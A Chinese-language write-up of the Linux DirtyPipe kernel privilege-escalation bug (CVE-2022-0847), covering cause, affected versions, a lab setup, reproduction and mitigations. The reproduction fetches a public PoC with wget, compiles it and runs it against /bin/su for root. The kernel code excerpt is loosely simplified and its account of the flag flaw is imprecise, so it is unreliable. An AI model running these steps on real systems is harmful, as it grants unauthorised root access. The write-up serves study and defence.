

## 漏洞概述

**CVE-2022-0847**（俗称 **DirtyPipe**）是 Linux 内核 5.8 至 5.16.11 / 5.15.25 / 5.10.102 版本中存在的本地提权漏洞。该漏洞允许非特权进程通过 `splice()` 系统调用操纵管道缓冲区，覆盖任意只读文件（如 SUID 二进制文件），进而实现代码注入与权限提升。其利用难度低、影响面广，被视为 **Dirty COW (CVE-2016-5195)** 的“简化版”变体。

> 交叉引用：[[vulnhub-doubletrouble-writeup]] 中复现了 Dirty COW 提权链；[[xd-security-privilege-escalation-notes-day58-64]] 记录了内核漏洞提权技术体系；[[linux-kernel-hardening-mechanisms]] 梳理了内核缓解措施演进。

## 核心成因：splice 与管道缓冲区合并逻辑缺陷

### splice 系统调用数据流向

`splice()` 实现内核态零拷贝，在文件描述符间传输数据。漏洞触发路径为：**普通文件 → 管道**。核心调用链：

```c
do_splice() → do_splice_to() → generic_file_splice_read()
  → call_read_iter() → generic_file_buffered_read()
  → copy_page_to_iter() → copy_page_to_iter_pipe()
```

### 关键函数 `copy_page_to_iter_pipe()` 逻辑缺陷

```c
static size_t copy_page_to_iter_pipe(struct page *page, size_t offset,
                                     size_t bytes, struct iov_iter *i)
{
    struct pipe_inode_info *pipe = i->pipe;
    struct pipe_buffer *buf = &pipe->bufs[i->head & p_mask];

    // 1. 尝试与前一个缓冲区合并
    if (off) {
        if (offset == off && buf->page == page) {  // 仅比较 page 指针与偏移
            buf->len += bytes;                     // 直接扩展长度
            i->iov_offset += bytes;
            goto out;
        }
        i_head++;
        buf = &pipe->bufs[i_head & p_mask];
    }

    // 2. 新建缓冲区，绑定文件 page cache
    buf->ops = &page_cache_pipe_buf_ops;
    get_page(page);               // 增加 page 引用计数
    buf->page = page;             // 关键：管道缓冲区直接指向文件物理页
    buf->offset = offset;
    buf->len = bytes;
    pipe->head = i_head + 1;
    ...
}
```

**漏洞本质**：管道缓冲区合并判断仅检查 `page` 指针与 `offset`，未校验 `flags`（如 `PIPE_BUF_FLAG_CAN_MERGE`）。攻击者可构造匿名管道缓冲区（`flags` 含 `CAN_MERGE`），诱导内核将其与后续文件页合并，导致**管道写入数据回流覆盖文件页缓存**。

### 利用前置条件

1. 目标文件可读且位于页缓存中（已被读取过）
2. 写入偏移不在页面边界（需跨页或非对齐）
3. 管道容量足以容纳目标数据（默认 16 页 / 64 KiB）

## 环境搭建与漏洞检测

### 受影响内核版本

| 内核分支 | 修复版本 |
|----------|----------|
| 5.16.x   | >= 5.16.11 |
| 5.15.x   | >= 5.15.25 |
| 5.10.x   | >= 5.10.102 |
| 5.8 - 5.9 | 无修复，需升级至长期支持分支 |

检测命令：

```bash
uname -r
# 输出版本在上述范围内即可能受影响
```

### Metarget 一键部署靶场

```bash
git clone https://github.com/brant-ruan/metarget.git
cd metarget
pip3 install -r requirements.txt
sudo ./metarget cnv install cve-2022-0847
```

> 交叉引用：[[docker-container-security-fundamentals]] 介绍容器逃逸与内核漏洞利用场景；[[kubernetes-penetration-testing]] 记录集群环境下的 Dirty COW 利用。

## POC 编译与提权复现

### 获取并编译 POC (dirtypipez.c)

```bash
mkdir dirtypipez && cd dirtypipez
wget https://haxx.in/files/dirtypipez.c
gcc dirtypipez.c -o dirtypipez
```

### 寻找可劫持的 SUID 二进制

```bash
find / -perm -u=s -type f 2>/dev/null
# 典型目标：/bin/su, /usr/bin/sudo, /bin/mount 等
```

### 实施提权

```bash
./dirtypipez /bin/su
# 成功后当前 Shell 即获得 root 权限
```

**利用流程图解**：



## 缓解与修复建议

1. **内核升级**（首选）：
   - 5.16.x → 5.16.11+
   - 5.15.x → 5.15.25+
   - 5.10.x → 5.10.102+
   - 旧版本迁移至受支持 LTS 分支

2. **临时缓解**（无法立即升级时）：
   - 禁用 `splice` 系统调用（`seccomp` 过滤）
   - 移除非必要 SUID 位：`find / -perm -4000 -exec chmod u-s {} \;`
   - 启用内核参数 `vm.mmap_min_addr=65536` 等硬化选项

3. **检测规则**：
   - 审计异常 `splice` 调用模式（文件→管道→写入）
   - 监控 SUID 文件元数据变更（inode/mtime 异常）

> 交叉引用：[[process-injection-tampering-techniques]] 对比进程注入与内核提权技术；[[memory-scanning-tools-evasion-techniques]] 涉及内存完整性校验防御。

## 相关技术延伸

| 技术专题 | 关联说明 |
|----------|----------|
| [[vulnhub-doubletrouble-writeup]] | Dirty COW (CVE-2016-5195) 完整提权链复现，对比两代“脏”漏洞利用异同 |
| [[xd-security-privilege-escalation-notes-day58-64]] | 系统化梳理 Linux/Windows/数据库/容器提权技术，含内核漏洞利用分类 |
| [[linux-kernel-hardening-mechanisms]] | 内核缓解技术演进：KPTI、SMAP/SMEP、CET、PAGE_TABLE_ISOLATION 等 |
| [[docker-container-security-fundamentals]] | 容器逃逸场景下的内核漏洞利用面分析 |
| [[kubernetes-penetration-testing]] | K8s 集群节点内核漏洞利用与 Master 节点隔离绕过 |

## 时间线与参考

- **2022-02-20** Max Kellermann 披露漏洞细节
- **2022-03-07** Linux 稳定分支发布修复补丁
- **2023-04-13** 本文归档日期（原微信文章发布时间）

> 原文来源：微信公众号文章《CVE-2022-0847_DirtyPipe Linux 内核提权漏洞分析及复现》  
> POC 来源：https://haxx.in/files/dirtypipez.c  
> 靶场框架：https://github.com/brant-ruan/metarget

## 来源

- [0x6270安全团队-202203-202304_34](../sources/0x6270安全团队-202203-202304_34.md)
